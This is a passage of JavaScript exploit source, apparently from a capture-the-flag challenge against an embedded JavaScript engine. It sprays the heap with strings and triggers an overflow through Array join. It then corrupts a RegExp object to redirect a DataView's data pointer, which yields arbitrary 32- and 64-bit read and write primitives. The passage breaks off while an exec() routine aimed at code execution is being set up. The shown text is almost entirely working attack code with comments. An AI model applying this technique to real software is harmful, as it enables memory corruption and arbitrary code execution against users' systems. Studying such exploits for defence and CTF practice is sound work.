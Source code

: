 ```js
 * from free_list_head (0x800)
 */

/* the slab allocation is from high address to low address */
var spray = [];
for (var i = 0; i < 1000; i++)
    spray.push(STR[0x40]);
/*
| Ap_join | (0x80)
| _______ |
|  regstr | (0x80) RexExp Str
| _______ |
|  master | (0x80) RegExp
| _______ |
|  slave  | (0x80) DataView
| _______ |

Why use master / slave?
--> we can use master to edit slave, and use slave to access arbitary address
*/
var slave = DataView(8);
slave.getUint8(0);
var master = RegExp(STR[0x40]);

// join() will create a memory region
/* first will copy 0x40 (overflow value) to new buffer,
 * next will strcat STR[0x80] STR[0x40] '\x11' to new buffer, (0x80+0x40+1 == 0xc1)
 */
overflow.join(""); /* "" instead use "," (len = 1) */

master.edit = DataView.prototype.setUint32;
master.show = DataView.prototype.getUint32;


function read32(addr) {
    master.edit(0x12c, addr / 0x100000000);
    master.edit(0x128, addr % 0x100000000);
    return slave.getUint32(0);
}

function write32(addr, value) {
    master.edit(0x12c, addr / 0x100000000);
    master.edit(0x128, addr % 0x100000000);
    return slave.setUint32(0, value);
}

function read64(addr) {
    return read32(addr) + read32(addr+4) * 0x100000000;
}

function write64(addr, val) {
    write32(addr, val % 0x100000000);
    write32(addr + 4, val / 0x100000000);
}

function exec(addr) {
    // (reg str) 0xe80 ~ (slave.u.dataview.data) 0xfa8 == 296 == 0x128
    var orig_slave_data = master.show(0x128) + master.show(0x12c)*0x100000000;
    var orig_slave_property = master.show(0x108) + master.show(0x10c) * 0x100000000;
    var target_property = master.show(0xa8) + master.show(0xac) * 0x100000000;
    // use data to create fake property

    /*
```